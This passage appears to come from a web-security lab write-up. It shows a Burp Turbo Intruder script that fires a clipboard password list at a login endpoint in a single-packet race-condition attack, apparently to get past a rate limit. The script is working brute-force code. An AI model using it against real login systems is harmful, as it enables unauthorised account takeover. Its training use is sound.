 ![alt text](./img/lab2-3.png)

- Script turbo intruder:

```python
def queueRequests(target, wordlists):

    # as the target supports HTTP/2, use engine=Engine.BURP2 and concurrentConnections=1 for a single-packet attack
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )
    
    # assign the list of candidate passwords from your clipboard
    passwords = wordlists.clipboard
    
    # queue a login request using each password from the wordlist
    # the 'gate' argument withholds the final part of each request until engine.openGate() is invoked
    for password in passwords:
        engine.queue(target.req, password, gate='1')
    
    # once every request has been queued
    # invoke engine.openGate() to send all requests in the given gate simultaneously
    engine.openGate('1')


def handleResponse(req, interesting):
    table.add(req)
```
